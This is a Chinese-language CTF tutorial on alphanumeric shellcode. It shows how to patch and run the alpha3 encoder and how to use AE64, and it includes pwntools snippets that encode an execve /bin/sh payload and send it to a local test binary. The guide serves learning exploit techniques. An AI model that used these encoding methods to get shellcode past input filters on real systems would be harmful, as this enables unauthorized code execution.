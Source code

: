 

# art of sc

[shellcode](https://xz.aliyun.com/t/6645)

# alphanumeric shellcode
> 原文链接:[纯字符shellcode生成指南](http://taqini.space/2020/03/31/alpha-shellcode-gen/)

*alphanumeric shellcode*(纯字符shellcode)是比较实用的一项技术，因为有些时候程序会对用户输入的字符进行限制，比如只允许输入可见字符，这时就需要用到纯字符的shellcode了。

原理很简单，就是使用**纯字符**对应的**汇编指令**完成shellcode的编写，比如：

| ASCII字符 | Hex  | 汇编指令  |
| --------- | ---- | --------- |
| P         | 0x50 | push %rax |
| Q         | 0x51 | push %rcx |
| R         | 0x52 | push %rdx |
| S         | 0x53 | push %rbx |
| T         | 0x54 | push %rsp |
| U         | 0x55 | push %rbp |
| V         | 0x56 | push %rsi |
| W         | 0x57 | push %rdi |
| X         | 0x58 | pop %rax  |
| Y         | 0x59 | pop %rcx  |
| Z         | 0x5a | pop %rdx  |

其余的就不一一列出了，本篇主要介绍**使用工具编码**，手动编码可以参考以下几篇文章：

* [Alphanumeric shellcode](https://nets.ec/Alphanumeric_shellcode)

* [x86纯字符编码表](https://web.archive.org/web/20110716082815/http://skypher.com/wiki/index.php?title=X86_alphanumeric_opcodes)

* [x64纯字符编码表](https://web.archive.org/web/20110716082850/http://skypher.com/wiki/index.php?title=X64_alphanumeric_opcodes)

## alpha3

这个工具源码在[google](code.google.com/p/alpha3)上，国内可以选择从[github](https://github.com/SkyLined/alpha3.git)下载。不过官方代码在Linux环境下运行时有些问题：

```bash
% python ALPHA3.py
Traceback (most recent call last):
  File "ALPHA3.py", line 4, in <module>
    import charsets, encode, io
  File "/home/taqini/ctf_tools/alpha3/encode.py", line 1, in <module>
    import ALPHA3
  File "/home/taqini/ctf_tools/alpha3/ALPHA3.py", line 5, in <module>
    import x86, x64, test
  File "/home/taqini/ctf_tools/alpha3/test/__init__.py", line 25, in <module>
    raise OSError("Unsupported platform for testing.");
OSError: Unsupported platform for testing.
```

看下报错信息，发现错误在`test/__init__.py`中，打开源码，发现有个**判断平台**的代码，如果不是`win32`就报错，解决方法很简单，只需要把后两行代码注释掉就行，修改如下：

```python
if (sys.platform == 'win32'):
	# ...
    TEST_SHELLCODE_OUTPUT = "Hello, world!\r\n"
#else:
#  raise OSError("Unsupported platform for testing.");
```

再次运行就正常：

```bash
% python ALPHA3.py
____________________________________________________________________________
      ,sSSs,,s,  ,sSSSs,    ALPHA3 - Alphanumeric shellcode encoder.
     dS"  Y$P"  YS"  ,SY    Version 1.0 alpha
    iS'   dY       ssS"     Copyright (C) 2003-2009 by SkyLined.
    YS,  dSb   SP,  ;SP     <berendjanwever@gmail.com>
    `"YSS'"S'  "YSSSY"      http://skypher.com/wiki/index.php/ALPHA3
____________________________________________________________________________

[Usage]
  ALPHA3.py  [ encoder settings | I/O settings | flags ]

# ...
```

> 修改完之后还需要编译源码，但是编译源码的工具也在google上，如果懒得自己编译，可以直接下载我修改版: https://github.com/TaQini/alpha3
>
> ```bash
> git clone https://github.com/TaQini/alpha3.git
> ```

### 生成shellcode

```python
from pwn import *
context.arch='amd64'
sc = shellcraft.sh()
print asm(sc)
```

将上述代码保存成`sc.py`放到`alpha3`目录下，然后执行如下命令生成待编码的`shellcode`文件

```bash
python sc.py > shellcode
```

> 默认生成的是x64的`sys_execve("/bin/sh",0,0)`，可以修改成其他的arch或shellcode

### x64 alpha编码

生成x64 alpha shellcode

```shell
python ./ALPHA3.py x64 ascii mixedcase rax --input="shellcode"
```

或者用我写的脚本：

```bash
./shellcode_x64.sh rax
```

> 其中输入文件为`shellcode`，`rax`是用于编码的寄存器(shellcode基址)

比如有如下代码：

```nasm
  00101246 48 8d     LEA    RAX,[RBP + -0x410]
           85 f0
           fb ff
  0010124d ff d0     CALL   RAX
  ; ...
```

通过`call rax`跳转到`shellcode`，那么`alpha3`命令中用于编码的寄存器就是`rax`

> `shellcode`的起始地址存在哪个寄存器中，用于编码的寄存器就是哪个

### x86 alpha编码

`alpha3`中x64的`shellcode`只要上述`mixedcase`一种情况，x86的选项比较多：

* x86 ascii uppercase (数字+大写字母)
* x86 ascii lowercase (数字+小写字母)
* x86 ascii mixedcase (数字+大小写字母)

用法与x64相似，不赘述啦~

### 全部编码方式

alpha3支持的所有编码方式如下：

```bash
Valid base address examples for each encoder, ordered by encoder settings,
are:

[x64 ascii mixedcase]
  AscMix (r64)              RAX RCX RDX RBX RSP RBP RSI RDI

[x86 ascii lowercase]
  AscLow 0x30 (rm32)        ECX EDX EBX

[x86 ascii mixedcase]
  AscMix 0x30 (rm32)        EAX ECX EDX EBX ESP EBP ESI EDI [EAX] [ECX]
                            [EDX] [EBX] [ESP] [EBP] [ESI] [EDI] [ESP-4]
                            ECX+2 ESI+4 ESI+8
  AscMix 0x30 (i32)         (address)
  AscMix Countslide (rm32)  countslide:EAX+offset~uncertainty
                            countslide:EBX+offset~uncertainty
                            countslide:ECX+offset~uncertainty
                            countslide:EDX+offset~uncertainty
                            countslide:ESI+offset~uncertainty
                            countslide:EDI+offset~uncertainty
  AscMix Countslide (i32)   countslide:address~uncertainty
  AscMix SEH GetPC (XPsp3)  seh_getpc_xpsp3

[x86 ascii uppercase]
  AscUpp 0x30 (rm32)        EAX ECX EDX EBX ESP EBP ESI EDI [EAX] [ECX]
                            [EDX] [EBX] [ESP] [EBP] [ESI] [EDI]

[x86 latin-1 mixedcase]
  Latin1Mix CALL GetPC      call

[x86 utf-16 uppercase]
  UniUpper 0x10 (rm32)      EAX ECX EDX EBX ESP EBP ESI EDI [EAX] [ECX]
                            [EDX] [EBX] [ESP] [EBP] [ESI] [EDI]

```



## AE64

[AE64](https://github.com/veritas501/ae64)是杭电的一位大师傅写的工具，专用于生成64位的aplha shellcode。下载方式：

```bash
git clone https://github.com/veritas501/ae64.git
```

AE64的优势在于编码时可以更加灵活地使用寄存器，但是生成的alpha shellcode比alpha3要更长一些。

此外AE64是python写的，可以直接在python中调用，以下是官方的栗子：

```python
from pwn import *
from ae64 import AE64

context.log_level = 'debug'
context.arch = 'amd64'

p = process('./example1')

obj = AE64()
sc = obj.encode(asm(shellcraft.sh()),'r13')

p.sendline(sc)

p.interactive()
```


